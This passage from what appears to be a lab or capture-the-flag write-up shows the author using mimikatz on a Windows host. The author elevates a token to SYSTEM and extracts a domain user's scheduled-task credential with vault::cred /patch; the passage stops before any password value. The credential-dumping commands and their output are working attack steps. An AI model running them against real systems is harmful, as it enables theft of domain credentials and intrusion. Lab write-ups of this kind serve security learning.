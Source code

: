 Now its time to dump the stored credentials with mimikatz. The `sekurlsa::logonpasswords` module fails:
```
PS C:\Users\Administrator\Documents> .\mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #18362 Feb 29 2020 11:13:36
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz # sekurlsa::logonpasswords
ERROR kuhl_m_sekurlsa_acquireLSA ; Logon list
```
However, the `vault::cred` module, which enumerates password stored for scheduled tasks, seems to return someting:
```
mimikatz # vault::cred

mimikatz # vault::list

Vault : {4bf4c442-9b8a-41a0-b380-dd4a704ddb28}
        Name       : Web Credentials
        Path       : C:\Users\Administrator\AppData\Local\Microsoft\Vault\4BF4C442-9B8A-41A0-B380-DD4A704DDB28
        Items (0)

Vault : {77bc582b-f0a6-4e15-4e80-61736b6f3b29}
        Name       : Windows Credentials
        Path       : C:\Users\Administrator\AppData\Local\Microsoft\Vault
        Items (0)
```
Before i can read the passwords, i need to elevate my access token:
```
mimikatz # token::elevate
Token Id  : 0
User name :
SID name  : NT AUTHORITY\SYSTEM

552     {0;000003e7} 1 D 27284          NT AUTHORITY\SYSTEM     S-1-5-18        (04g,21p)       Primary
 -> Impersonated !
 * Process Token : {0;0073ced0} 2 D 11237419    MS01\Administrator      S-1-5-21-1123338414-2776126748-2899213862-500   (14g,24p)    Primary
 * Thread Token  : {0;000003e7} 1 D 11300164    NT AUTHORITY\SYSTEM     S-1-5-18        (04g,21p)       Impersonation (Delegation)
```
Now i can see that this password is a domain password for user `georgia.price` :
```
mimikatz # vault::cred
TargetName : Domain:batch=TaskScheduler:Task:{013CD3ED-72CB-4801-99D7-8E7CA1F7E370} / <NULL>
UserName   : REFLECTION\Georgia.Price
Comment    : <NULL>
Type       : 2 - domain_password
Persist    : 2 - local_machine
Flags      : 00004004
Credential :
Attributes : 0
```
To get the cleartext value of password, i need to add the `/patch` flag:
```
mimikatz # vault::cred /patch
TargetName : Domain:batch=TaskScheduler:Task:{013CD3ED-72CB-4801-99D7-8E7CA1F7E370} / <NULL>
UserName   : REFLECTION\Georgia.Price
```